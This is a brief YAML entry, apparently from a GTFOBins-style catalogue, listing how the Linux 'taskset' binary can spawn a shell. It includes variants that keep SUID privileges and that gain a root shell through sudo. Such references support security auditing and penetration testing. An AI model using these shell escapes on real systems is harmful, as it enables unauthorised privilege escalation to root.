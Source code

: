 ```yaml
---
functions:
  shell:
    - code: taskset 1 /bin/sh
  suid:
    - code: ./taskset 1 /bin/sh -p
  sudo:
    - code: sudo taskset 1 /bin/sh
---
```

